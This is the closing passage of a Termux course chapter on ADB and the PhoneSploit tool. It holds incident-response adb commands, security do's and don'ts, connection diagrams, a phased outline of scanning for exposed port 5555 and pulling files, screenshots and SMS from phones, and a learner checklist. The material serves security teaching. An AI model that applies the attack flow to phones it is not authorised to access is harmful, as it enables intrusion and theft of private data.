║  ✅ Unknown sources disabled                                               ║
║  ✅ Device encrypted                                                       ║
║  ✅ Unnecessary apps removed                                               ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 5: Incident Response - Device Compromise
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  INCIDENT RESPONSE - DEVICE COMPROMISE                      ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  INCIDENT: Suspected malware on corporate device                           ║
║                                                                            ║
║  INITIAL ASSESSMENT:                                                        ║
║  adb devices                                                               ║
║  adb shell ps | grep suspicious                                            ║
║  adb shell pm list packages -3                                             ║
║                                                                            ║
║  FORENSIC COLLECTION:                                                       ║
║  # Save logs                                                               ║
║  adb logcat -d > device_logs.txt                                           ║
║                                                                             ║
║  # List installed packages with timestamps                                  ║
║  adb shell dumpsys package > packages_dump.txt                            ║
║                                                                             ║
║  # Extract suspicious APK                                                  ║
║  adb pull /data/app/com.suspicious.app/                                   ║
║                                                                             ║
║  # Get network connections                                                 ║
║  adb shell netstat -an > network_connections.txt                          ║
║                                                                             ║
║  # Extract recent files                                                    ║
║  adb shell ls -laR /sdcard/Download/ > recent_downloads.txt               ║
║                                                                            ║
║  FINDINGS:                                                                  ║
║  • Malicious APK installed from unknown source                            ║
║  • Unusual network connections to external servers                         ║
║  • Suspicious background processes                                        ║
║                                                                            ║
║  REMEDIATION:                                                               ║
║  • Isolate device from network                                            ║
║  • Factory reset device                                                   ║
║  • Monitor for data exfiltration                                          ║
║  • Update security policies                                               ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's - Responsible ADB Usage

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                         SECURITY DO's                                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  ✅ ONLY access devices you own or have explicit permission for            │
│  ✅ DISABLE USB debugging when not in use                                  │
│  ✅ USE screen lock to prevent unauthorized ADB access                     │
│  ✅ REVOKE old ADB authorizations periodically                            │
│  ✅ MONITOR for unknown installed apps                                     │
│  ✅ KEEP Android version updated                                           │
│  ✅ USE wireless debugging with pairing (Android 11+)                      │
│  ✅ CHECK app permissions before installation                             │
│  ✅ DOCUMENT all testing activities                                       │
│  ✅ REPORT security vulnerabilities responsibly                            │
│                                                                              │
│  BEST PRACTICE: Treat ADB access like admin access - protect it!          │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### ❌ DON'Ts - Avoid These Mistakes

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                         SECURITY DON'Ts                                      │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  ❌ NEVER leave USB debugging permanently enabled                         │
│  ❌ NEVER connect to untrusted computers                                   │
│  ❌ NEVER install APKs from unknown sources                               │
│  ❌ NEVER share ADB authorization with untrusted PCs                      │
│  ❌ NEVER disable screen lock when ADB is enabled                         │
│  ❌ NEVER ignore "Allow USB debugging" prompts                            │
│  ❌ NEVER grant unnecessary app permissions                               │
│  ❌ NEVER leave device unattended with ADB enabled                        │
│  ❌ NEVER use public WiFi with wireless debugging enabled                 │
│  ❌ NEVER forget to check "Always allow" before accepting                 │
│  ❌ NEVER use ADB on devices you don't own without permission             │
│  ❌ NEVER ignore suspicious app behavior                                  │
│                                                                              │
│  WARNING: Unauthorized ADB access is illegal and can result in             │
│           criminal prosecution                                              │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### 🔒 ADB Security Checklist

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                      ADB SECURITY CHECKLIST                                  │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  For Device Owners:                                                          │
│  ☐ USB debugging OFF when not needed                                       │
│  ☐ Wireless debugging OFF when not needed                                  │
│  ☐ Strong screen lock enabled                                              │
│  ☐ Developer options hidden                                                │
│  ☐ USB debugging authorizations revoked for old PCs                        │
│  ☐ Unknown apps uninstalled                                                │
│  ☐ Android updated to latest version                                       │
│                                                                              │
│  For Security Testers:                                                       │
│  ☐ Written authorization obtained                                          │
│  ☐ Scope clearly defined                                                   │
│  ☐ Testing window confirmed                                                │
│  ☐ All activities documented                                               │
│  ☐ Only necessary data extracted                                           │
│  ☐ Evidence preserved properly                                             │
│  ☐ Report submitted responsibly                                            │
│                                                                              │
│  Emergency Response:                                                         │
│  ☐ Immediately disable ADB if device compromised                           │
│  ☐ Revoke all ADB authorizations                                           │
│  ☐ Check for malicious apps                                               │
│  ☐ Factory reset if necessary                                              │
│  ☐ Report incident to security team                                        │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 📊 ARCHITECTURE DIAGRAMS

### Diagram 1: ADB Architecture

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                          ADB ARCHITECTURE                                    │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   CLIENT SIDE                           SERVER SIDE                         │
│   (Termux/PC)                           (Android Device)                   │
│                                                                              │
│   ┌──────────────┐                     ┌──────────────┐                    │
│   │ adb command  │                     │   adbd       │                    │
│   │ (binary)     │                     │   (daemon)   │                    │
│   └──────┬───────┘                     └──────┬───────┘                    │
│          │                                    │                             │
│          │                                    │                             │
│   ┌──────▼───────┐                     ┌──────▼───────┐                    │
│   │  adb server  │◄──────USB/TCP───────►│   Port 5555 │                    │
│   │ (background) │      Channel        │              │                    │
│   └──────────────┘                     └──────────────┘                    │
│          │                                    │                             │
│          │                                    ▼                             │
│          │                             ┌──────────────┐                    │
│          │                             │  Android OS  │                    │
│          │                             │  Shell Access│                    │
│          │                             │  File System │                    │
│          │                             └──────────────┘                    │
│          │                                    │                             │
│          ▼                                    ▼                             │
│   ┌──────────────────────────────────────────────────────────────────┐      │
│   │                      COMMAND FLOW                                │      │
│   │                                                                  │      │
│   │   adb shell ls /sdcard/                                         │      │
│   │          │                                                       │      │
│   │          ▼                                                       │      │
│   │   [Client] ──► [Server] ──► [adbd] ──► [Shell] ──► [Response]   │      │
│   │                                                                  │      │
│   └──────────────────────────────────────────────────────────────────┘      │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Diagram 2: ADB Connection Methods

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    ADB CONNECTION METHODS                                    │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   METHOD 1: USB CABLE                                                       │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                                                                    │    │
│   │   [Termux/PC] ────USB Cable────► [Android Device]                 │    │
│   │                                                                    │    │
│   │   ✓ Most reliable                                                 │    │
│   │   ✓ Fast transfer                                                 │    │
│   │   ✓ No network required                                           │    │
│   │   ✗ Physical access needed                                        │    │
│   │                                                                    │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
│   METHOD 2: WIFI (TCP/IP)                                                   │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                                                                    │    │
│   │   [Termux/PC] ◄────WiFi Network────► [Android Device]             │    │
│   │                                                                    │    │
│   │   ✓ No cable needed                                               │    │
│   │   ✓ Remote access possible                                        │    │
│   │   ✗ Slower than USB                                               │    │
│   │   ✗ Security risk on public WiFi                                  │    │
│   │                                                                    │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
│   METHOD 3: WIRELESS DEBUGGING (Android 11+)                                │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                                                                    │    │
│   │   [Termux/PC] ◄──Pairing + Connection──► [Android Device]         │    │
│   │                                                                    │    │
│   │   ✓ No USB required                                               │    │
│   │   ✓ More secure (pairing code)                                    │    │
│   │   ✓ Encryption support                                            │    │
│   │   ✗ Android 11+ only                                              │    │
│   │                                                                    │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Diagram 3: PhoneSploit Attack Flow

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    PHONESPOXIT ATTACK FLOW                                   │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   ATTACKER (PhoneSploit)                                                     │
│          │                                                                   │
│          ▼                                                                   │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 1: DISCOVERY                              │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ Scan network for port 5555 (ADB)                             │ │    │
│   │  │ Identify ADB-enabled devices                                 │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│          │                                                                   │
│          ▼                                                                   │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 2: CONNECTION                             │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ Auto-connect to discovered devices                          │ │    │
│   │  │ adb connect IP:5555                                         │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│          │                                                                   │
│          ▼                                                                   │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 3: EXPLOITATION                           │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ • Device info gathering                                    │ │    │
│   │  │ • File extraction                                          │ │    │
│   │  │ • Screenshot capture                                       │ │    │
│   │  │ • App installation                                         │ │    │
│   │  │ • SMS/Contact access                                       │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│          │                                                                   │
│          ▼                                                                   │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 4: DATA EXFILTRATION                      │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ • Pull files from /sdcard/                                  │ │    │
│   │  │ • Extract app data                                          │ │    │
│   │  │ • Access sensitive information                              │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
│   DEFENSE: Disable ADB, use wireless debugging with pairing                  │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

### Knowledge Verification Checklist

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                      CHAPTER 36 COMPLETION CHECKLIST                         │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  CORE CONCEPTS:                                                              │
│  ☐ Understood ADB architecture                                             │
│  ☐ Learned connection methods (USB, WiFi, Pairing)                         │
│  ☐ Installed android-tools in Termux                                       │
│  ☐ Mastered basic ADB commands                                             │
│                                                                              │
│  DEVICE MANAGEMENT:                                                          │
│  ☐ Listed devices with adb devices                                          │
│  ☐ Connected over WiFi                                                      │
│  ☐ Accessed device shell                                                   │
│  ☐ Used adb push/pull for files                                            │
│                                                                              │
│  APP OPERATIONS:                                                             │
│  ☐ Listed packages with pm list packages                                    │
│  ☐ Installed APK with adb install                                          │
│  ☐ Uninstalled apps with adb uninstall                                     │
│  ☐ Cleared app data with pm clear                                          │
│                                                                              │
│  SECURITY TESTING:                                                           │
│  ☐ Used PhoneSploit for device scanning                                    │
│  ☐ Extracted device information                                            │
│  ☐ Captured screenshots remotely                                           │
│  ☐ Pulled files from device                                                │
│                                                                              │
│  DEFENSE:                                                                    │
│  ☐ Understand ADB security risks                                            │
│  ☐ Know how to disable ADB                                                 │
│  ☐ Revoke USB debugging authorizations                                     │
│  ☐ Protect devices from unauthorized access                                 │
│                                                                              │
│  LEGAL & ETHICS:                                                             │
│  ☐ Understand legal implications                                            │
│  ☐ Know authorized use cases                                               │
│  ☐ Follow ethical testing guidelines                                       │
│  ☐ Document all activities                                                 │
│                                                                              │
│  FINAL ASSESSMENT:                                                           │
│  ☐ Completed all quiz questions                                             │
│  ☐ Reviewed interview questions                                             │
│  ☐ Understood real-world scenarios                                          │
│  ☐ Ready for Chapter 37: Social Engineering Toolkit                         │
│                                                                              │
│  SCORE: _____/25 items completed                                            │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

**Chapter 36: PhoneSploit & ADB - Complete! 🎉**

*Enhanced content added for comprehensive learning experience*
*Created by T3rmuxk1ng | Termux Full Course*
